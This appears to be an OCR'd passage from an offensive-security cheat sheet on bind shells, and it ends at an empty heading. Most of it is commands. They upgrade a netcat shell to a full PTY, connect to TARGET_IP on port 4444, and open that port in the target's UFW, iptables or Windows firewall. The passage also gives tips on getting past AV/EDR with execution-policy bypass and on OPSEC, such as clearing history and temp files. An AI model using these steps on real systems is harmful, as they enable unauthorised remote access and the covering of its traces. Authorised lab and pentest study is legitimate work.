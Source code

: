 Quick shell upgrade (after you connect)
- For Linux shells:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 40 columns 120
```
- If job control needed (from attacker nc):
  - Press Ctrl+Z to background, then:
```
stty raw -echo; fg
reset
export TERM=xterm
stty rows 40 columns 120
```
- For better local line editing:
```
rlwrap nc -nv TARGET_IP 4444
```

Firewall allow (if you have control over the target)
- Linux UFW:
```
sudo ufw allow 4444/tcp
```
- Linux iptables:
```
sudo iptables -I INPUT -p tcp --dport 4444 -j ACCEPT
```
- Windows Defender Firewall:
```
netsh advfirewall firewall add rule name="Bind4444" dir=in action=allow protocol=TCP localport=4444
```

## Practical tips
- NAT and inbound filtering: Bind shells typically fail across NAT/strict perimeter firewalls. Prefer reverse shells over the internet; bind shells shine on flat/internal networks or pivots.
- Port selection: Choose allowed/expected ports (443/53/80/8080) when appropriate; avoid low ports (<1024) without privileges.
- Netcat variant quirks:
  - Many Linux distros ship OpenBSD nc without -e. Use ncat, socat, or mkfifo workaround.
  - BusyBox nc often supports -e and -c.
- Stability: Socat with PTY yields a more interactive shell than nc -e. On the client, rlwrap improves usability.
- Reuse: Ncat’s --keep-open can accept multiple connections on the same listener during testing.
- OPSEC: Clear your FIFO/tmp files and history; prefer ephemeral ports; consider --ssl on internal networks if available.
- Windows AV/EDR: PowerShell listeners may be flagged; ncat.exe from Nmap often works better. Use -NoProfile and -ExecutionPolicy Bypass judiciously in labs.
- Cleanup: Remove firewall rules and temp files (e.g., /tmp/f) after tests.

## Minimal cheat sheet (one-screen flow)
